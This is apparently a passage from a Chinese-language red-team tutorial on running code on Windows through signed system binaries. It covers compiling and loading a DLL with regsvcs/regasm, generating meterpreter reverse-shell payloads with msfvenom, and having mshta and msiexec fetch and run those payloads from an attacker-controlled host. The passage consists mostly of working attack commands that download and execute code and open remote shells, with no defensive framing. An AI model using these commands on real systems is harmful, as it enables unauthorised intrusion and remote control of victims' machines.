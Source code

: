 ```bash
sn -k key.snk
```

编译dll，注意文件的路径

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:1.dll /keyfile:key.snk regsvcs.cs
```
用这两者上线

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe 1.dll 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe 1.dll
```
或者这样

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U 1.dll 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U 1.dll
```

上线成功。

### mshta

mshta是在环境变量里的

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 ‐f raw > shellcode.bin
```

```bash
cat shellcode.bin |base64 ‐w 0
```

然后替换这个文件中的shellcode

https://raw.githubusercontent.com/mdsecactivebreach/CACTUSTORCH/master/CACTUSTORCH.hta

替换`' ---------- DO NOT EDIT BELOW HERE -----------`上面引号包起来的base64，可以将hta托管出来。

```bash
mshta.exe http://baidu.com/shellcode.hta
```

在cobalt strike中mshta也是一个很方便的上线功能。

### Msiexec简介：

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

Msiexec已经被添加到环境变量了。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 ‐f msi > shellcode.txt
```

目标机执行
```bash
msiexec.exe /q /i http://172.16.1.130/shellcode.txt
```
